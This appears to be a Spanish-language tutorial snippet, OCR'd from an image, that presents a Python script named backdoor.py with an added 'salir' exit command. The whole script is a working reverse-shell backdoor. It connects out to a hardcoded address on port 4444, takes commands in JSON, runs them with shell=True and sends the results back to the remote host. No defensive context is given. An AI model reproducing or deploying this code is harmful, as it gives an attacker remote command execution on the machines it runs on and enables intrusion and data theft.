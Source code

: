 
# MEJORA DE CODIGO AGREGAMOS COMANDO "salir"

* backdoor.py

```bash

import socket
import subprocess
import json

class Backdoor:

    def __init__(self,ip,port):
        self.connection = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        self.connection.connect((ip,port))
        self.connection.send("\n [+] Conexion establecida \n".encode())
    
    def envio_seguro(self, datos):
        json_data = json.dumps(datos)
        self.connection.send(json_data.encode())

    def reception_segura(self):
        json_data = ""
        
        while True:
            try:
             
               json_data = self.connection.recv(1024).decode("utf-8")
               return json.loads(json_data)
            except ValueError:
                continue
    
    def ejecutar_comando(self,comando):
        return subprocess.check_output(comando,shell=True)


    def run(self):
        while True:

            comando = self.reception_segura()

            if comando[0] == "salir":
                self.connection.close()
                exit()
            
            else:
                resultado_comando = self.ejecutar_comando(comando)
                self.envio_seguro(resultado_comando.decode("utf-8"))
        self.connection.close()

backdoor = Backdoor("192.168.1.133",4444)
backdoor.run()
```
